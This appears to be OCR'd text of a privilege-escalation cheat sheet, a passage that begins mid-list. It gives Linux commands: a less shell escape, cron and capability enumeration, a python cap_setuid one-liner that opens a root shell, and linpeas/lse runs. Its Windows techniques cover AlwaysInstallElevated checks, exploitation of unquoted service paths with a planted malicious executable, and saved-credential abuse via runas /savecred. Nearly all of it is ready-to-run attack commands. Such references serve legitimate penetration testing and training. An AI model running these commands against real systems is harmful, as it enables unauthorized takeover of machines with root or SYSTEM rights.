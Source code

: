     :- Execute shell via less '!' command
    
    :- (Inside less, type !/bin/sh)
    
    :- Check Cron Jobs:    
    ls -la /etc/cron*
    
    cat /etc/crontab

### Check Capabilities:    
    getcap -r / 2>/dev/null

### Exploit capabilities (Assume /usr/bin/python has cap_setuid+ep)    
    https://gtfobins.github.io/gtfobins/python/
    
    :- Use python capability to get root shell
    /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")' 

### Linux PrivEsc Check Scripts (Re-iteration with common flags)    
    :- Run all checks (noisy)
    linpeas.sh -a
    
    :- Linux Smart Enumeration, level 0 (quick overview)
    lse.sh -i -l 0

### Windows Privilege Escalation (LOLBAS usage examples)    
    :- Find interesting files/permissions:
    
    :- Check permissions for Authenticated Users
    accesschk.exe -wsu "Authenticated Users" c:\*.* /accepteula
    
    :- Check ACLs for a file
    icacls C:\path\to\file

### Check AlwaysInstallElevated registry keys:    
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    (If both are 1, can create MSI for SYSTEM privileges)

### Check Unquoted Service Paths:    
    wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

### Exploit Unquoted Service Path (Assume service path is C:\Program Files\Some Dir\service.exe)    
    (Place malicious service.exe at C:\Program.exe or C:\Program Files\Some.exe)

### Check for stored credentials:    
    cmdkey /list
    
    :- Example leveraging saved creds
    runas /savecred /user:administrator cmd.exe
